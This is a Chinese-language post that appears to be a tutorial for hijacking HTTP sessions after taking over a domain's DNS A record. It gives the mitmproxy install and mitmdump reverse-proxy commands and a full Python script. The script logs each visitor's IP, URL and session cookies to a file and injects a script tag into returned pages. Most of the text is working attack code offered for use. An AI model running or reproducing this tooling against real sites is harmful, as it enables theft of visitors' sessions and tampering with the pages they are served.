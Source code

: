 0x01 介绍
这个一直觊觎很久了,原来F4ther演示的时候也想写一套Nginx反向代理表单劫持工具
后面看到3xp10it大佬介绍了就不想写了直接用就行了

本文记录一种在域名劫持后通过mitmproxy进行http会话劫持的利用脚本,该脚本通过mitmdump的反向代理工作模式进行流量劫持.

0x02 操作
1.通过修改域名的A记录来进行域名劫持

2.在域名的新A记录主机上安装mitmproxy:pip3 install mitmproxy

3.在域名的新A记录主机上运行: mitmdump --set allow_remote=true -—listen-host 0.0.0.0 -s xdomain.py --mode reverse:http://xxx.xxx.xxx:80 -p 80

--listen-host代表本地监听ip
--mode reverse代表以反向代理的模式进行工作
--set allow_remote=true代表支持客户端访问的时候是通过代理访问的
运行时需要需要上面命令中的http://xxx.xxx.xxx:80为目标网站地址,且修改下面代码中的http://xxx.xxx.xxx为目标网站地址

具体实现脚本
import os
import re
import chardet


def request(flow):
    # url=flow.request.url
    # flow.request.headers['User-Agent']='xxx'
    pass


def response(flow):
    url = flow.request.url
    print(url)
    if "http://xxx.xxx.xxx" in url:
        content = flow.response.content
        cookie = flow.request.headers['Cookie']
        ip = str(flow.client_conn.ip_address).split(":")[0]
        bytes_encoding = chardet.detect(content)['encoding']
        origin_html = content.decode(encoding=bytes_encoding, errors="ignore")
        if "</html>" in origin_html:
            insert_xss = '''<script>alert("you're hacked")</script></html>'''
            new_html = origin_html.replace("</html>", insert_xss)
            flow.response.text = new_html
        return_value = {'ip': ip, 'url': url, 'cookie': cookie}
        with open("mitm.log", "a+") as f:
            f.write(str(return_value) + "\n")
